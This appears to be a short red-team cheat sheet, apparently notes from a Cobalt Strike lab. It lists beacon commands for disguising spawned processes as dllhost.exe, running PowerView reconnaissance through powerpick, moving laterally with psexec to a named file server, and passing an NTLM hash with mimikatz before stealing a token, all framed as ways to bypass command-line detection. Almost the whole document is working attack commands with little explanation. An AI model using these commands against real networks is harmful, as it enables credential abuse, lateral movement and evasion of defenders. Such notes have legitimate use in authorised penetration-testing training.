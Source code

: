 # Spawning to a new process manually

```bash
beacon> spawnto x64 %windir%\sysnative\dllhost.exe
beacon> spawnto x86 %windir%\syswow64\dllhost.exe

# Check the process name
powerpick Get-Process -Id $pid | select ProcessName

# Now we should be able to use powerpick
powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
powerpick Get-Domain

# To revert back to the original ProcessName
spawnto
```

---

# Jumping with psexec

```bash
# Set the settings for the target dll
ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe
ak-settings spawnto_x86 C:\Windows\SysWOW64\dllhost.exe

# Jump to the target
jump psexec64 fs.dev.cyberbotic.io smb
```

---

# Passing the hash to imperonate a user (lateral movement) (Command Line Detection bypass)

```bash
mimikatz sekurlsa::pth /user:"jking" /domain:"DEV" /ntlm:59fc0f884922b4ce376051134c71e22c /run:notepad.exe
steal_token 17896
```
